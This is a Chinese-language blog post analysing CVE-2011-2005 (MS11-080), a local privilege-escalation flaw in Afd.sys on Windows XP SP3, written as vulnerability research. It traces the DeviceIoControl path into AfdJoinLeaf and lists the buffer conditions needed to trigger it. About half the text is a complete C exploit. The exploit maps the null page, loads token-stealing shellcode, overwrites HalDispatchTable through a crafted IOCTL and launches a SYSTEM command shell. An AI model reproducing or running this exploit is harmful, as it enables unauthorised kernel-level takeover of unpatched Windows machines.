



# CVE-2011-2005(MS11-080)漏洞分析 - 紅人 - 博客园

> 原文：[`www.cnblogs.com/feizianquan/p/15885315.html`](https://www.cnblogs.com/feizianquan/p/15885315.html)

### 0x00 漏洞信息

分析系统：xp sp3

漏洞文件：Afd.sys

类型：本地提权漏洞

### 0x01 漏洞分析

这里我用 DeviceIoControl 投递 IoControlCode 状态码

最后会执行到 ntkrnlpa.exe 的 IopXxxControlFile



只需要跟踪确定状态码是多少可以调用到漏洞函数

接着调用

IopSynchronousServiceTail


 接着 IofCallDriver 跳转到目标函数  AfdFastIoDeviceContro


 

 知道了  eax=[[ebx+60]-24]  向上追一下 ebx 赋值


 由于 xor ecx ,ecx   导致 setnz cl   默认等于 1 的    默认等于 e 


 会调用 AfdDispatchDeviceControl 默认接着看状态码分析



 

 AfdJoinLeaf 下标是 2e  只需要 esi=2e 就行  保证状态码后 8 位是 b8-bb 都可以  例如 ff0bb=2e


 保证

1.  输入缓冲区的长度必须大于 0x18

2.  输入缓冲区偏移 0x8 的地址中保存的数据不可以为 0

3.  输入缓冲区偏移为 0xC 的值必须为 1，并且输入缓冲区的长度减去 0xC 的值需要大于输入缓冲区偏移为 0x10 处保存的内容+8 的值

4.  套接字需要连接到开放的端口以保持 CONNECTING 状态

### 0x2exp

```
#include <stdio.h> #include <Winsock2.h> #include <windows.h>
#pragma comment (lib, "ws2_32.lib") typedef struct _RTL_PROCESS_MODULE_INFORMATION {
    HANDLE Section; // Not filled in
 PVOID MappedBase;
    PVOID ImageBase;
    ULONG ImageSize;
    ULONG Flags;
    USHORT LoadOrderIndex;
    USHORT InitOrderIndex;
    USHORT LoadCount;
    USHORT OffsetToFileName;
    UCHAR  FullPathName[ 256 ];
} RTL_PROCESS_MODULE_INFORMATION, *PRTL_PROCESS_MODULE_INFORMATION;

typedef struct _RTL_PROCESS_MODULES {
    ULONG NumberOfModules;
    RTL_PROCESS_MODULE_INFORMATION Modules[ 1 ];
} RTL_PROCESS_MODULES, *PRTL_PROCESS_MODULES;

typedef ULONG ( __stdcall *NtQueryIntervalProfile_ ) ( ULONG, PULONG );
typedef ULONG ( __stdcall *NtQuerySystemInformation_ ) ( ULONG, PVOID, ULONG, PULONG );
typedef ULONG ( __stdcall *NtAllocateVirtualMemory_ ) ( HANDLE, PVOID, ULONG, PULONG, ULONG, ULONG );
NtQueryIntervalProfile_ NtQueryIntervalProfile;
NtAllocateVirtualMemory_ NtAllocateVirtualMemory;
NtQuerySystemInformation_ NtQuerySystemInformation;

ULONG    PsInitialSystemProcess, PsReferencePrimaryToken, PsGetThreadProcess, WriteToHalDispatchTable; void _declspec(naked) ShellCode()
{
    __asm
    {
        pushad
        pushfd
        mov esi,PsReferencePrimaryToken
FindTokenOffset:
        lodsb
        cmp al, 8Dh;
        jnz FindTokenOffset
        mov edi,[esi+1]
        mov esi,PsInitialSystemProcess
        mov esi,[esi]
        push fs:[124h]
        mov eax,PsGetThreadProcess
        call eax
        add esi, edi
        add edi, eax
        movsd
        popfd
        popad
        ret
    }
} void main( )
{
    HMODULE ntdll =   GetModuleHandle( "ntdll.dll" );
    NtQueryIntervalProfile =   (NtQueryIntervalProfile_)GetProcAddress( ntdll ,"NtQueryIntervalProfile" );
    NtAllocateVirtualMemory =   (NtAllocateVirtualMemory_)GetProcAddress( ntdll ,"NtAllocateVirtualMemory" );
    NtQuerySystemInformation =   ( NtQuerySystemInformation_ )GetProcAddress( ntdll ,"NtQuerySystemInformation" ); if ( NtQueryIntervalProfile == NULL || NtAllocateVirtualMemory == NULL || NtQuerySystemInformation == NULL ) return;

    ULONG    BaseAddress = 1 , RegionSize = 0x1000, status;
    status = NtAllocateVirtualMemory( (HANDLE)0xFFFFFFFF, (PVOID*)&BaseAddress, 0, &RegionSize, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE ); if ( status ) return; //取 ntoskrnl 的信息，只要调用一次就行
 ULONG   NtoskrnlBase;
    RTL_PROCESS_MODULES module;
    status = NtQuerySystemInformation( 11, &module, sizeof(RTL_PROCESS_MODULES), NULL);//SystemModuleInformation 11
    if ( status != 0xC0000004 )    //STATUS_INFO_LENGTH_MISMATCH
        return;

    NtoskrnlBase =   (ULONG)module.Modules[0].ImageBase; //把 ntoskrnl.exe 加载进来
 HMODULE     ntoskrnl;
    ntoskrnl =    LoadLibraryA( (LPCSTR)( module.Modules[0].FullPathName + module.Modules[0].OffsetToFileName ) ); if ( ntoskrnl == NULL ) return; //计算实际地址
    WriteToHalDispatchTable     =   (ULONG)GetProcAddress(ntoskrnl,"HalDispatchTable") - (ULONG)ntoskrnl + NtoskrnlBase + 4 + 2; //需要覆盖的地址
    PsInitialSystemProcess      =   (ULONG)GetProcAddress(ntoskrnl,"PsInitialSystemProcess") - (ULONG)ntoskrnl + NtoskrnlBase;
    PsReferencePrimaryToken =   (ULONG)GetProcAddress(ntoskrnl,"PsReferencePrimaryToken") - (ULONG)ntoskrnl + NtoskrnlBase;
    PsGetThreadProcess =   (ULONG)GetProcAddress(ntoskrnl,"PsGetThreadProcess") - (ULONG)ntoskrnl + NtoskrnlBase; //以下代码就各显神通了
    if ( VirtualAlloc( (PVOID)0x02070000, 0x20000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE ) == NULL ) return;

    memset((PVOID)0x02070000,0x90,0x20000);
    memcpy((PVOID)0x02080000,ShellCode,100);

    WSADATA ws;

    SOCKET tcp_socket; struct sockaddr_in peer;
    ULONG  dwReturnSize;

    WSAStartup(0x0202,&ws);

    peer.sin_family = AF_INET;
    peer.sin_port = htons(4455);
    peer.sin_addr.s_addr = inet_addr( "127.0.0.1" );

    tcp_socket = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP); if ( connect(tcp_socket, (struct sockaddr*) &peer, sizeof(struct sockaddr_in)) )
    {
        printf("connect error\n");
    }

    UCHAR   buf1[26]= "\x41\x41\x41\x41\x42\x42\x42\x42\x00\x00\x00\x00\x44\x44\x44\x44\x01\x00\x00\x00\xe8\x00\x34\xf0\x00";
    memset((PVOID)0x1000,0x45,0x108);
    memcpy((PVOID)0x1000,buf1,25); if(!DeviceIoControl((HANDLE)tcp_socket,0x000120bb, (PVOID)0x1004, 0x108, (PVOID)WriteToHalDispatchTable, 0x0,&dwReturnSize, NULL))
    {
        printf("error=%d\n", GetLastError());
    } //触发，弹出 SYSTEM 的 CMD
    NtQueryIntervalProfile( 2, &status );
    ShellExecute( NULL, "open", "cmd.exe", NULL, NULL, SW_SHOW); return;
}
```